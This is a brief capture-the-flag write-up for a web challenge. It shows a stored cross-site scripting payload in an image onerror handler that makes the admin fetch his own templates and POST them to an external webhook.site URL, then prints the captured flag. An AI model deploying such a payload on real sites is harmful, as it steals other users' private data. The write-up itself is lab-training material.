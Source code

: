 # Taking the X out of Twitter

We notice that the path `/api/template/all` gives a list of all the templates a user has created.

Rooner has hidden the flag in his templates, so we launch a cross-site scripting attack to make him access `/api/template/all` and send the acquired data to us.

We create our own exploit template:
```js
<img src="/" onerror="fetch('/api/template/all/').then((res) => res.json()).then((res) => fetch('https://webhook.site/3dd2d66b-7ae2-4ef6-8c19-662382617a61', {method: 'POST', body: JSON.stringify(res)}))" );="" "="">
``` 

This sends a json record of Rooner's templates to the webhook created by us, where we find the flag.

## Flag

    cruXipher{cr0ss_s1t3_on_th3_s4me_s1t3}
